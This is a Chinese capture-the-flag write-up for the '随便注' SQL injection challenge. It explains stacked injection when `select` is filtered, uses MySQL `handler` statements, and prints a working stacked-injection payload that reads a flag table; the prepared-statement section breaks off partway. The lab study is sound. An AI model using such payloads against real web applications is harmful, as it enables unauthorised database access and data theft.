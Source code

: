 



## 三、随便注

简单尝试后，发现是字符型注入，字段为2

![](https://i.loli.net/2021/10/26/y2JicgBbwfUoXNP.png)

尝试使用union注入，发现被过滤，尝试后发现，**无法绕过`select`的过滤**

![](https://i.loli.net/2021/10/26/kuz2Knlv9p4ydcm.png)



### 堆叠注入

![](https://i.loli.net/2021/10/26/rbRhOigd5NMSkzA.png)

可以用`desc table_name`查看表结构的详细信息，或者`show columns from table_name`

![](https://i.loli.net/2021/10/26/FlWh7pZqiymA5X6.png)

可以看出，flag就在这张表中，但没有select无法获取字段具体信息

看了全网的题解，大概有三种思路，收获颇多



### 1.handler查询

> mysql除可使用select查询表中的数据，也可使用handler语句，**这条语句使我们能够一行一行的浏览一个表中的数据**
>
> 不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
> HANDLER语句提供通往表的直接通道的存储引擎接口，可以用于MyISAM和InnoDB表。

<font color='red'>注意：在windows系统下，反单引号（`）是数据库、表、索引、列和别名用的引用符</font>

基本使用方法：

```mysql
handler table_name open      #打开一张表
handler table_name read first #读取第一行内容，
handler table_name read next  #依次获取其它行
```

尝试使用一下payload:

```mysql
?inject=-1';handler `1919810931114514` open;handler `1919810931114514` read first;--+
```

![](https://i.loli.net/2021/10/26/gUnRzEwQVMcBlhe.png)

### 2.预处理语句

```mysql
PREPARE name from '[my sql sequece]';  #预定义SQL语句
EXECUTE name; #执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  #删除预定义SQL语句
```
